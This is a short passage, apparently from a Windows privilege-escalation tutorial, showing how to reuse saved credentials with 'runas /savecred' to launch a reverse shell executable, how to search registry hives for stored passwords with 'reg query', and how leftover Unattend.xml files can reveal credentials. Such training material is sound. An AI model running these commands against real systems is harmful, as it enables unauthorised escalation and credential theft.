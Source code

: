 If you see any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.  
 ```
 runas /savecred /user:admin reverse_shell.exe 
 ```  
  
**Registry keys:** Registry keys potentially containing passwords can be queried using the commands below.  
 ``` reg query HKLM /f password /t REG_SZ /s  ```  
 ``` reg query HKCU /f password /t REG_SZ /s ```  
  
**Unattend files:** Unattend.xml files helps system administrators setting up Windows systems. They need to be deleted once the setup is complete but can sometimes be forgotten on the system. What you will find in the unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading.